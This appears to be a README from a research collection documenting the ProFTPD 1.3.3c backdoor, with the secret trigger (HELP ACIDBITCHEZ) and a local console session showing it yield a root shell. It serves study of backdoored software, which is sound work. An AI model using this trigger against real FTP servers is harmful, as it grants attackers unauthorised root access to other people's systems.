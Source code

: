 # ProFTPD 1.3.3c backdoor
- **Type**: hidden command
- **Affected versions**: 1.3.3c


## Backdoor
Running the FTP command `"HELP"` with the argument `"ACIDBITCHEZ"` spawns a root shell, in which
arbitrary commands can be executed.


## Triggering the backdoor
First, we need to start up the FTP server (e.g., with the _backdoored_ variant):
```console
$ ./backdoored/proftpd -n -c $PWD/proftpd.conf
```
In a separate terminal, we can trigger the backdoor:
```console
$ nc localhost 21  # connect to the FTP server
220 ProFTPD 1.3.3c Server (ProFTPD Default Installation) [::ffff:127.0.0.1]
HELP ACIDBITCHEZ
id
uid=0(root) gid=0(root) groups=0(root)
exit
502 Unknown command 'ACIDBITCHEZ'
QUIT
221 Goodbye.
```


## Reference
<https://doi.org/10.1145/2508859.2516716>
